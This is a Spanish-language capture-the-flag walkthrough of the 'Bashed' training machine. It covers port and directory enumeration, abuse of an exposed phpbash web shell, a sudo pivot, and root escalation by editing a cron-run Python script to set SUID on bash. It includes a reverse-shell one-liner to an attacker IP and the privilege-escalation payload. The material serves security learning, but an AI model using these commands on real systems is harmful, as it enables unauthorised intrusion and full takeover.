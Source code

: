 ## Bashed

---

![image](images/20250523112750.png)

###### Técnicas demostradas:

- Web Enumeration
- Abusing WebShell Utility (RCE)
- Abusing Sudoers Privilege (User Pivoting)
- Detecting Cron Jobs Running on the System
- Exploiting Cron Job Through File Manipulation in Python Executed by Root (Privilege Escalation)

---

Realizamos un escaneo de puertos con la herramienta `nmap`

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.68 -oG allPorts
```

![image](images/20250430104350.png)

Hacemos un escaneo exhaustivo sobre el puerto encontrado para conoces el servicio y la versión del mismo.

```bash
nmap -p80 -sCV 10.10.10.68 -oN targeted
```

![image](images/20250430104436.png)

Con la herramienta `WhatWeb` obtenemos algo más de información

```bash
whatweb 10.10.10.68
```

![image](images/20250430104518.png)

Vamos a la web a ver que nos encontramos.

![image](images/20250430104900.png)

Realizamos una búsqueda de directorios dentro del dominio con la herramienta `gobuster`

```bash
gobuster dir -u http://10.10.10.68 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash -x php
```

![image](images/20250430110543.png)

Tras probar varios, vemos que `/dev` nos permite acceder a la herramienta `phpbash` --> [GitHub - Arrexel/phpbash: A semi-interactive PHP shell compressed into a single file.](https://github.com/Arrexel/phpbash)

![image](images/20250430110555.png)

Accedemos a ella, y vemos que podemos ejecutar comandos como el usuario `www-data`

![image](images/20250430110640.png)

Moviéndonos al directorio personal de `arrexel` encontramos la primera flag

![image](images/20250430110749.png)

#### Escalada de privilegios

Empezamos listando los permisos a nivel de `sudoer` para el usuario `www-data`

```bash
sudo -l
```

Vemos que podemos ejecutar comandos como el usuario `scriptmanager` sin proporcionar contraseña

![image](images/20250430110905.png)

Probando:

```bash
sudo -u scriptmanager whoami
```

![image](images/20250430112917.png)

En este punto vamos a lanzarnos una shell a nuestra máquina para trabajar más cómodo

```bash
bash -c "bash -i >%26 /dev/tcp/10.10.14.9/1234 0>%261"
```

```bash
nc -nlvp 1234
```

![image](images/20250430113217.png)

Teniendo en cuenta lo anterior vamos a lanzar una `bash`

```bash
sudo -u scriptmanager bash
```

![image](images/20250430113343.png)

Vamos a buscar archivos cuyo propietario sea `scriptmanager`

```bash
find / -user scriptmanager 2>/dev/null | grep -v "proc"
```

![image](images/20250430113834.png)

Encontramos archivos dentro del directo `/script`

```bash
cd scripts/
```

![image](images/20250430113847.png)

Revisando su contenido y permisos parece que el usuario root está ejecutando una tarea programada:

![image](images/20250430114030.png)

Con el siguiente script podemos visualizar en tiempo real si se están ejecutando tareas y el usuario que lo hace:

![image](images/20250430120902.png)

```sh
#!/bin/bash

old_process="$(ps -eo user,command)"

while true; do
	new_process="$(ps -eo user,command)"
	diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "kworker|procmon"
	old_process=$new_process
done
```

```bash
chmod +x procmon.sh
```

![image](images/20250430115137.png)

Tras ver que efectivamente se está haciendo así, vamos a modificar el archivo `test.py` para que el usuario root asigne permisos `SUID` a la bash

```python
import os

os.system("chmod u+s /bin/bash")
```

![image](images/20250430115825.png)

Una vez que tiene los permisos la lanzamos con privilegios

```bash
bash -p
```

Encontramos la flag de root

![image](images/20250430115914.png)

